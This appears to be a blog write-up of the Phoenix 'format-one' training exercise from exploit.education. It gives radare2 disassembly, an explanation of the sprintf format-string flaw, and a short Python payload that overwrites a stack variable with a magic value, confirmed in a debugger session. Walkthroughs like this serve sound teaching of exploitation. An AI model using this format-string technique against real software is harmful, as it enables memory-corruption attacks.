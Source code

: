 ```yaml
---
layout: post
title:  "Phoenix x86 Format One"
date: "2019-10-17 18:00:00 +0300"
categories: exploit-education phoenix x86
---
```


Here follows the dissasembly of the binary.

{% highlight shell %}
$ r2 /opt/phoenix/i486/format-one
{% endhighlight %}

{% highlight nasm %}
[0x080483d0]> aas
Cannot analyze at 0x08048650
[0x080483d0]> afl
0x08048338    1 17           sym._init
0x08048520    7 277  -> 112  sym.frame_dummy
0x08048610    5 49           sym.__do_global_ctors_aux
0x08048641    1 12           sym._fini
0x080484a0    8 113  -> 111  sym.__do_global_dtors_aux
0x08048114   57 604  -> 666  sym..interp
0x080483d0    1 62           entry0
0x080483c0    1 6            sym.imp.__libc_start_main
0x08048728    1 14           loc.__GNU_EH_FRAME_HDR
0x08048744    3 34           sym..eh_frame
0x08048780    1 10           obj.__EH_FRAME_BEGIN
0x08048410    4 49   -> 40   sym.deregister_tm_clones
0x080487a4    1 4            obj.__FRAME_END
0x08048565    6 163          main
0x08048380    1 6            sym.imp.puts
0x08048370    1 6            sym.imp.fgets
0x08048390    1 6            sym.imp.errx
0x080483a0    1 6            sym.imp.sprintf
0x08048360    1 6            sym.imp.printf
0x080483b0    1 6            sym.imp.exit
[0x080483d0]> s main
[0x08048565]> pdf
/ (fcn) main 163
|   int main (int argc, char **argv, char **envp);
|           ; var int32_t var_3ch @ ebp-0x3c
|           ; var int32_t var_2dh @ ebp-0x2d
|           ; var int32_t var_2ch @ ebp-0x2c
|           ; var int32_t var_ch @ ebp-0xc
|           ; arg int32_t arg_4h @ esp+0x4
|           ; DATA XREF from entry0 @ 0x8048404
|           0x08048565      8d4c2404       lea ecx, [arg_4h]
|           0x08048569      83e4f0         and esp, 0xfffffff0
|           0x0804856c      ff71fc         push dword [ecx - 4]
|           0x0804856f      55             push ebp
|           0x08048570      89e5           mov ebp, esp
|           0x08048572      51             push ecx
|           0x08048573      83ec44         sub esp, 0x44
|           0x08048576      83ec0c         sub esp, 0xc
|           0x08048579      6850860408     push str.Welcome_to_phoenix_format_one__brought_to_you_by_https:__exploit.education ; sym..rodata
|                                                                      ; 0x8048650 ; "Welcome to phoenix/format-one, brought to you by https://exploit.education"
|           0x0804857e      e8fdfdffff     call sym.imp.puts           ; int puts(const char *s)
|           0x08048583      83c410         add esp, 0x10
|           0x08048586      a1a0980408     mov eax, dword [obj.stdin]  ; sym..bss
|                                                                      ; [0x80498a0:4]=0
|           0x0804858b      83ec04         sub esp, 4
|           0x0804858e      50             push eax
|           0x0804858f      6a0f           push 0xf                    ; 15
|           0x08048591      8d45c4         lea eax, [var_3ch]
|           0x08048594      50             push eax
|           0x08048595      e8d6fdffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
|           0x0804859a      83c410         add esp, 0x10
|           0x0804859d      85c0           test eax, eax
|       ,=< 0x0804859f      750f           jne 0x80485b0
|       |   0x080485a1      83ec08         sub esp, 8
|       |   0x080485a4      689b860408     push str.Unable_to_get_buffer ; 0x804869b ; "Unable to get buffer"
|       |   0x080485a9      6a01           push 1                      ; 1
|       |   0x080485ab      e8e0fdffff     call sym.imp.errx           ; void errx(int eval)
|       `-> 0x080485b0      c645d300       mov byte [var_2dh], 0
|           0x080485b4      c745f4000000.  mov dword [var_ch], 0
|           0x080485bb      83ec08         sub esp, 8
|           0x080485be      8d45c4         lea eax, [var_3ch]
|           0x080485c1      50             push eax
|           0x080485c2      8d45d4         lea eax, [var_2ch]
|           0x080485c5      50             push eax
|           0x080485c6      e8d5fdffff     call sym.imp.sprintf        ; int sprintf(char *s, const char *format, ...)
|           0x080485cb      83c410         add esp, 0x10
|           0x080485ce      8b45f4         mov eax, dword [var_ch]
|           0x080485d1      3d6c4f7645     cmp eax, 0x45764f6c
|       ,=< 0x080485d6      7416           je 0x80485ee
|       |   0x080485d8      8b45f4         mov eax, dword [var_ch]
|       |   0x080485db      83ec08         sub esp, 8
|       |   0x080485de      50             push eax
|       |   0x080485df      68b0860408     push str.Uh_oh___changeme__is_not_the_magic_value__it_is_0x_08x ; 0x80486b0 ; "Uh oh, 'changeme' is not the magic value, it is 0x%08x\n"
|       |   0x080485e4      e877fdffff     call sym.imp.printf         ; int printf(const char *format)
|       |   0x080485e9      83c410         add esp, 0x10
|      ,==< 0x080485ec      eb10           jmp 0x80485fe
|      |`-> 0x080485ee      83ec0c         sub esp, 0xc
|      |    0x080485f1      68e8860408     push str.Well_done__the__changeme__variable_has_been_changed_correctly ; 0x80486e8 ; "Well done, the 'changeme' variable has been changed correctly!"
|      |    0x080485f6      e885fdffff     call sym.imp.puts           ; int puts(const char *s)
|      |    0x080485fb      83c410         add esp, 0x10
|      |    ; CODE XREF from main @ 0x80485ec
|      `--> 0x080485fe      83ec0c         sub esp, 0xc
|           0x08048601      6a00           push 0
\           0x08048603      e8a8fdffff     call sym.imp.exit           ; void exit(int status)
[0x08048565]> agf
[0x08048565]>  # int main (int argc, char **argv, char **envp);
    .----------------------------------------------------------------------------------------.
    |  0x8048565                                                                             |
    | (fcn) main 163                                                                         |
    |   int main (int argc, char **argv, char **envp);                                       |
    | ; var int32_t var_3ch @ ebp-0x3c                                                       |
    | ; var int32_t var_2dh @ ebp-0x2d                                                       |
    | ; var int32_t var_2ch @ ebp-0x2c                                                       |
    | ; var int32_t var_ch @ ebp-0xc                                                         |
    | ; arg int32_t arg_4h @ esp+0x4                                                         |
    | ; DATA XREF from entry0 @ 0x8048404                                                    |
    | lea ecx, [arg_4h]                                                                      |
    | and esp, 0xfffffff0                                                                    |
    | push dword [ecx - 4]                                                                   |
    | push ebp                                                                               |
    | mov ebp, esp                                                                           |
    | push ecx                                                                               |
    | sub esp, 0x44                                                                          |
    | sub esp, 0xc                                                                           |
    | ; sym..rodata                                                                          |
    | ; 0x8048650                                                                            |
    | ; "Welcome to phoenix/format-one, brought to you by https://exploit.education"         |
    | push str.Welcome_to_phoenix_format_one__brought_to_you_by_https:__exploit.education    |
    | ; int puts(const char *s)                                                              |
    | call sym.imp.puts;[oa]                                                                 |
    | add esp, 0x10                                                                          |
    | ; sym..bss                                                                             |
    | ; [0x80498a0:4]=0                                                                      |
    | mov eax, dword [obj.stdin]                                                             |
    | sub esp, 4                                                                             |
    | push eax                                                                               |
    | ; 15                                                                                   |
    | push 0xf                                                                               |
    | lea eax, [var_3ch]                                                                     |
    | push eax                                                                               |
    | ; char *fgets(char *s, int size, FILE *stream)                                         |
    | call sym.imp.fgets;[ob]                                                                |
    | add esp, 0x10                                                                          |
    | test eax, eax                                                                          |
    | jne 0x80485b0                                                                          |
    `----------------------------------------------------------------------------------------'
            f t
            | |
            | '-------------------------------------.
            |                                       |
            |                                       |
        .----------------------------------.    .-------------------------------------------------.
        |  0x80485a1                       |    |  0x80485b0                                      |
        | sub esp, 8                       |    | mov byte [var_2dh], 0                           |
        | ; 0x804869b                      |    | mov dword [var_ch], 0                           |
        | ; "Unable to get buffer"         |    | sub esp, 8                                      |
        | push str.Unable_to_get_buffer    |    | lea eax, [var_3ch]                              |
        | ; 1                              |    | push eax                                        |
        | push 1                           |    | lea eax, [var_2ch]                              |
        | ; void errx(int eval)            |    | push eax                                        |
        | call sym.imp.errx;[oc]           |    | ; int sprintf(char *s, const char *format, ...) |
        `----------------------------------'    | call sym.imp.sprintf;[od]                       |
                                                | add esp, 0x10                                   |
                                                | mov eax, dword [var_ch]                         |
                                                | cmp eax, 0x45764f6c                             |
                                                | je 0x80485ee                                    |
                                                `-------------------------------------------------'
                                                        f t
                                                        | |
                                                        | '-------------------.
    .---------------------------------------------------'                     |
    |                                                                         |
.--------------------------------------------------------------------.    .---------------------------------------------------------------------------.
|  0x80485d8                                                         |    |  0x80485ee                                                                |
| mov eax, dword [var_ch]                                            |    | sub esp, 0xc                                                              |
| sub esp, 8                                                         |    | ; 0x80486e8                                                               |
| push eax                                                           |    | ; "Well done, the 'changeme' variable has been changed correctly!"        |
| ; 0x80486b0                                                        |    | push str.Well_done__the__changeme__variable_has_been_changed_correctly    |
| ; "Uh oh, 'changeme' is not the magic value, it is 0x%08x\n"       |    | ; int puts(const char *s)                                                 |
| push str.Uh_oh___changeme__is_not_the_magic_value__it_is_0x_08x    |    | call sym.imp.puts;[oa]                                                    |
| ; int printf(const char *format)                                   |    | add esp, 0x10                                                             |
| call sym.imp.printf;[oe]                                           |    `---------------------------------------------------------------------------'
| add esp, 0x10                                                      |        v
| jmp 0x80485fe                                                      |        |
`--------------------------------------------------------------------'        |
    v                                                                         |
    |                                                                         |
    '--------------------------------------------------------.                |
                                                             | .--------------'
                                                             | |
                                                       .-----------------------------------.
                                                       |  0x80485fe                        |
                                                       | ; CODE XREF from main @ 0x80485ec |
                                                       | sub esp, 0xc                      |
                                                       | push 0                            |
                                                       | ; void exit(int status)           |
                                                       | call sym.imp.exit;[of]            |
                                                       `-----------------------------------'
{% endhighlight %}

From the above, the key points are the following:
* The input is read from *STDIN* via a call to `fgets` at address `0x08048595`. It is saved at `var_3ch` with a size restriction of 15 bytes.
* `var_3ch` is used as a format string for `sprintf` at `0x080485c6`.
* The objective is to overwrite `var_ch` with `0x45764f6c`, which is tested at `0x080485d1`.

The exploit is almost identical to the one from the previous level, with the only exception being the value that needs to be written to `var_ch`.

{% highlight python %}
#!/usr/bin/env python3
import os

os.write(1, b'\x25\x33\x32\x78'+b'\x6c\x4f\x76\x45')
{% endhighlight %}

{% highlight shell %}
$ ./theScript.py > pattern
{% endhighlight %}

{% highlight shell %}
#!/usr/bin/env rarun2
stdio=/dev/pts/0
stdin=./pattern
{% endhighlight %}

*Replace `/dev/pts/0` with the output of the command `tty` and `./pattern` with the full path to the file that contains the input to be read from the binary.*

{% highlight shell %}
$ r2 -d /opt/phoenix/i486/format-one -r theProfile.rr2
{% endhighlight %}

{% highlight nasm %}
[0xf7ef4d4b]> aas
Cannot analyze at 0x08048650
[0xf7ef4d4b]> db 0x080485c6
[0xf7ef4d4b]> dc
Welcome to phoenix/format-one, brought to you by https://exploit.education
hit breakpoint at: 80485c6
[0x080485c6]> dr
eax = 0xffb9951c
ebx = 0xf7f2a000
ecx = 0xf7f2ae08
edx = 0x00000000
esi = 0xffb995d4
edi = 0x00000001
esp = 0xffb994f0
ebp = 0xffb99548
eip = 0x080485c6
eflags = 0x00000292
oeax = 0xffffffff
[0x080485c6]> px/16xw 0xffb99548-0x3c
0xffb9950c  0x78323325 0x45764f6c 0xf7f2c100 0x00000000  %32xlOvE........
0xffb9951c  0x08048300 0x00000000 0x00000000 0x00000000  ................
0xffb9952c  0x00000000 0x00000000 0x00000000 0x00000000  ................
0xffb9953c  0x00000000 0x00000000 0xffb99560 0xffb995dc  ........`.......
[0x080485c6]> px/xw 0xffb99548-0xc
0xffb9953c  0x00000000                                   ....
[0x080485c6]> dso
hit breakpoint at: 80485cb
[0x080485c6]> px/16xw 0xffb99548-0x3c
0xffb9950c  0x78323325 0x45764f6c 0xf7f2c100 0x00000000  %32xlOvE........
0xffb9951c  0x20202020 0x20202020 0x20202020 0x20202020                  
0xffb9952c  0x20202020 0x20202020 0x32663766 0x30343161          f7f2a140
0xffb9953c  0x45764f6c 0x00000000 0xffb99560 0xffb995dc  lOvE....`.......
[0x080485c6]> px/xw 0xffb99548-0xc
0xffb9953c  0x45764f6c                                   lOvE
[0x080485c6]> dc
Well done, the 'changeme' variable has been changed correctly!
{% endhighlight %}

## Conclusion
In this level, the approach was almost identical to that of the previous one with the only difference being that a specific value needed to be written to `var_ch`.